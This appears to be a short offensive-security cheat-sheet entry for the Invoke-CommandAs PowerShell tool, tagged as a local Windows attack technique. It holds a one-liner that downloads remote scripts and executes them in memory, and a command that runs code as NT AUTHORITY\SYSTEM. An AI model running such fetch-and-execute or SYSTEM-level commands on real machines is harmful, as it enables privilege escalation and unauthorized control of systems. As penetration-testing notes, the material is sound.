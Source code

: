 # Invoke-CommandAs
% windows, impersonation

#plateform/windows #target/local  #cat/ATTACK
## _desc
```
Run command as nt authority\system
```

## _repo
```
```

## _doc
```
https://github.com/mkellerman/Invoke-CommandAs
```

## _install
```
```

## import modules
```powershell
Import-Module ".\Invoke-CommandAs.ps1" ;  Import-Module ".\Invoke-ScheduledTask.ps1" ; 
```

## import one-liner
```powershell
"Public/Invoke-CommandAs.ps1", "Private/Invoke-ScheduledTask.ps1" | % {. ([ScriptBlock]::Create((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mkellerman/Invoke-CommandAs/master/Invoke-CommandAs/${_}")))}
```

## run commend as system
```powerhell
Invoke-CommandAs -ScriptBlock {<command|whoami>} -AsSystem
```